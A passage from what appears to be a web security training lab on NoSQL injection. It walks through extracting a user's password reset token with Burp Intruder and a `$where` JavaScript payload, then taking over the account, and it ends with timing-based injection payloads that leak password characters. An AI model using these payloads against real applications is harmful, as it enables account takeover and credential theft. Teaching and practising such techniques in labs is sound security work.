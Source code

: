         Notice that one of the JSON parameters is for a password reset token.
        
8. Test the identified password reset field name as a query parameter on different endpoints:
    
    1. In **Proxy > HTTP history**, identify the `GET /forgot-password` request as a potentially interesting endpoint, as it relates to the password reset functionality. Right-click the request and select **Send to Repeater**.
    2. In Repeater, submit an invalid field in the URL: `GET /forgot-password?foo=invalid`. Notice that the response is identical to the original response.
    3. Submit the exfiltrated name of the password reset token field in the URL: `GET /forgot-password?YOURTOKENNAME=invalid`. Notice that you receive an `Invalid token` error message. This confirms that you have the correct token name and endpoint.
9. In Intruder, use the `POST /login` request to construct an attack that extracts the value of Carlos's password reset token:
    
    1. Keep the settings from your previous attack, but update the `$where` parameter as follows: `"$where":"this.YOURTOKENNAME.match('^.{§§}§§.*')"`
        
        Make sure that you replace `YOURTOKENNAME` with the password reset token name that you exfiltrated in the previous step.
        
    2. Click **Start attack**.
    3. Sort the attack results by **Payload 1**, then **Length**, to identify responses with an `Account locked` message instead of the `Invalid username or password` message. Note the letters from the **Payload 2** column down.
10. In Repeater, submit the value of the password reset token in the URL of the `GET / forgot-password` request: `GET /forgot-password?YOURTOKENNAME=TOKENVALUE`.
11. Right-click the response and select **Request in browser > Original session**. Paste this into Burp's browser.
12. Change Carlos's password, then log in as `carlos` to solve the lab.

## Timing based injection

Sometimes triggering a database error doesn't cause a difference in the application's response. In this situation, you may still be able to detect and exploit the vulnerability by using JavaScript injection to trigger a conditional time delay.

To conduct timing-based NoSQL injection:

1. Load the page several times to determine a baseline loading time.
2. Insert a timing based payload into the input. A timing based payload causes an intentional delay in the response when executed. For example, `{"$where": "sleep(5000)"}` causes an intentional delay of 5000 ms on successful injection.
3. Identify whether the response loads more slowly. This indicates a successful injection.

The following timing based payloads will trigger a time delay if the password beings with the letter `a`:

```json
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'

admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```